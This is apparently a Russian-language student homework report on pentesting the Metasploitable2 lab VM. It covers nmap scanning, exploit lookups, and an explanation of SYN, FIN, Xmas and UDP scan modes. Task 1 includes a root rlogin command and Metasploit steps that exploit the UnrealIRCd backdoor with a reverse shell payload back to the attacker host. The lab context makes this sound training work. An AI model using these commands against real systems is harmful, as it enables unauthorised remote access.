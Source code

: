 ## Уязвимости и атаки на информационные системы
## Домашнее задание. Горбунов Владимир


### Задание 1

```
Скачайте и установите виртуальную машину Metasploitable: https://sourceforge.net/projects/metasploitable/.  
Это типовая ОС для экспериментов в области информационной безопасности, с которой следует начать при анализе уязвимостей.  
Просканируйте эту виртуальную машину, используя **nmap**.  
Попробуйте найти уязвимости, которым подвержена эта виртуальная машина.  
Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.  
Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.   
Ответьте на следующие вопросы:  
- Какие сетевые службы в ней разрешены?
- Какие уязвимости были вами обнаружены? (список со ссылками: достаточно трёх уязвимостей)
*Приведите ответ в свободной форме.*  
```
- Сетап для тестирования: 
  - Kali linux одним интерфейсом подключена к локальной сети (бридж), вторым к PentestNet сети (172.30.1.0/24)
  - Metasploitable2 подключена к сети PentestNet.  
![](./img/task1-1.jpg)
- Для начала сканируем сеть ARP сканером `netdiscover -i eth1 -r 172.30.1.0/24`
![](./img/task1-2.jpg)
- Узнали адрес metaspoitable2. Сканируем с помощью nmap открытые порты. `nmap -A -T4 -p- 172.30.1.20`
  - -A - расширенное сканирование с подробной информации о сервисе на открытом порту
  - -T4 - скорость сканирования (1-5)
  - -p- - сканируем все возможные 65,535 портов
  - в результате - общая информация об атакуемой системе и открытые порты с сервисами, которые на них висят  
Полный отчет nmap: [nmap_metasploitable2.log](./nmap_metasploitable2.log)
- Практически любой из открытых сервисов в этой сборке даёт возможность так или иначе получить доступ к системе или вывести её из строя. Даже обычный r-service на 513 порту неправильно настроен и даёт возможность подключиться к Metasploitable2 под рутом `rlogin -l root 172.30.1.20` 
- Другие примеры уязвимостей атакуемой системы 
  - FTP vsFTPd 2.3.4 https://www.exploit-db.com/exploits/49757 
  Версия программы vsFTP, выложенная в репозиторий сторонним пользователем и дающая возможность получить доступ к shell под рутом указав имя ":)"
  Рабочий скрипт на питоне и подробнее тут - https://github.com/Hellsender01/vsftpd_2.3.4_Exploit 
  - Apache httpd 2.2.8 https://attackerkb.com/topics/cM3Ia1zzpA/cve-2008-2364 
  возможность провести DoS атаку с загрузкой памяти
  - UnrealIRCd 3.2.8.1 https://www.exploit-db.com/exploits/16922 
  IRC сервер с уязвимостью. В фреймворке msfconsole - 
  > use exploit/unix/irc/unreal_ircd_3281_backdoor  
  > set RHOST 172.30.1.20  
  > set LHOST 172.30.1.21  
  > set payload cmd/unix/reverse  
  > exploit  

### Задание 2

```
Проведите сканирование Metasploitable в режимах SYN, FIN, Xmas, UDP.  
Запишите сеансы сканирования в Wireshark.  
Ответьте на следующие вопросы:  
- Чем отличаются эти режимы сканирования с точки зрения сетевого трафика?  
- Как отвечает сервер?  
*Приведите ответ в свободной форме.*  
```
TCP соединение устанавливается с помощью трехстороннего рукопожатия.  
Инициатор соединения отправляет SYN пакет  
В ответ получает SYN+ACK пакет  
И отправляет ACK пакет  
Соединение считается установленным и начинается передача данных


- Режим SYN `nmap -sS 172.30.1.20`
![](./img/task2-1.jpg)  

Отправляется SYN пакет.   
В случае, если от хоста приходит ответ SYN+ACK, то есть хост готов установить соединение - порт считается открытым, а само соединение сбрасывается отправляя пакет RST.   
В случае, если от хоста приходит RST - порт закрыт. 
Если ответа нет - filtered.

- Режим FIN `nmap -sF 172.30.1.20`
![](./img/task2-2.jpg)  

В режиме FIN используется особенность стандарта TCP.   
Если пакет не содержит флагов SYN ACK RST, то закрытый порт вернет ответ RST.    
Если порт открыт, то ответа от исследуемого хоста не приходит.

- Режим Xmas `nmap -sX 172.30.1.20`
![](./img/task2-3.jpg)  

Аналогично режиму FIN отправляется пакет на завершение соединения. Дополнительно к FIN отправляется флаг PSH (не копить буфер, отправить сразу в приложение) и URG (флаг сигнализирующий о приорите пакета). 

- Режим UDP `nmap -sU 172.30.1.20`
![](./img/task2-4.jpg)  

В протоколе UDP нет рукопожатия, пакеты идут потоком, не дожидаясь подтверждения получения.  
При UDP сканировании на какие-то общеизвестные порты (53 DNS, 161 SNMP) отправляются пакеты с полезной нагрузкой, чтобы увеличить вероятность отклика, но на большинство просто пустые пакеты. Если от хоста нет ответа, то считается, что порт открыт или ответный пакет потерян (opened | filtered). В случае недоступности порта исследуемый хост отправляет ICMP пакет - host unreachable. Однако часто по умолчанию количество отправляемых пакетов ICMP в секунду ограничено, nmap это определяет и замедляется, чтобы не засорять сеть UDP трафиком. Как написано в man-pages в случае, если на исследуемом хосте установлен лимит в 1 ICMP/сек, сканирование всех портов UDP может занять 18 часов. 


В целом с точки зрения сетевого трафика наименее заметным является режим FIN.  
Однако самым надежным - SYN. UDP - наиболее длительный режим сканирования.  
Также стоит отметить, что  режим SYN используется по умолчанию, когда nmap работает от рута и есть возможность отправлять raw packets.   
В случае запуска без повышенных привелегий nmap использует системные вызовы. И трехстороннее рукопожатие устанавливается полностью.
